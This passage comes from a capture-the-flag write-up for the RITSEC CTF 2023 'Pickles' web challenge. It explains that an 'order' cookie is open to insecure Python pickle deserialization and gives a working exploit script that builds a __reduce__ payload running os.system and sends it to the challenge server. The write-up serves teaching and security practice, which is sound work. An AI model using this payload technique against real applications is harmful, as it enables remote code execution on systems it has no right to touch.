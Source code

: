 ## Exploitation

Armed with above information, it's clear that the `order` cookie is vulnerable to ***Insecure Deserialization via Python's Pickle***.

**According to [HackTricks](https://book.hacktricks.xyz/pentesting-web/deserialization#pickle), we can gain Remote Code Execution (RCE) via the `__reduce__` magic method:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/RITSEC-CTF-2023/images/Pasted%20image%2020230402124014.png)

**Now, let's create our own evil pickle serialized object, and send it!!**
```py
#!/usr/bin/env python3
import pickle, os, base64
import requests

class P(object):
    def __reduce__(self):
        return (os.system,("id ",))

def main():
    pickledPayload = base64.b64encode(pickle.dumps(P())).decode()
    print(f'[*] Payload: {pickledPayload}')

    URL = 'https://pickles-web.challenges.ctf.ritsec.club/order'
    cookie = {
        'order': pickledPayload
    }

    print('[*] Request result:')
    orderRequestResult = requests.get(URL, cookies=cookie)
    print(orderRequestResult.text)

if __name__ == '__main__':
    main()
```
